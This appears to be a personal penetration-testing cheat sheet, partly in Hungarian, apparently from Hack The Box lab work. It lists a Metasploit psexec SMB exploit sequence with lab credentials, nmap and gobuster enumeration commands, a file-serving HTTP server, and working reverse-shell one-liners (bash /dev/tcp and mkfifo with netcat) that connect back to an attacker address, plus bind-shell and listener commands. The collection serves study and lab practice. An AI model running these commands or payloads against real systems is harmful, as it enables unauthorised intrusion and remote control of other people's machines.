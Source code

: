 
MSF SMB:
```shell
msfconsole
search exploit/windows/smb/psexec
use 0
set Rhosts 10.10.10.10
set LHOST 10.10.10.10
set LHOST 10.10.10.10
set SMBUser htb-student
set SMBPass HTB_@cademy_stdnt!
exploit
```
Alap parancsok:
nmap:
```shell
nmap -sCV 10.10.10.10
```
Wget python
```shell
python3 -m http.server 8000
```
Dir gobuster
```shell
gobuster dir -u http://link.link -w /usr/share/seclists/Discovery/Web-Content/common.txt -o dev_linkvortex_htb_gobuster
```
Subdomain gobuster
```shell
gobuster vhost -u http://link.link -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain -r -o linkvortex_subdomain_gobuster
```
reverseshell:
```shell
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
```

```shell
nc -lvnp 1234
```
bindshell:
```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash i 2>&1|nc -lvp 1234 >/tmp/f
```

```shell
nc 10.10.10.10 1234
```
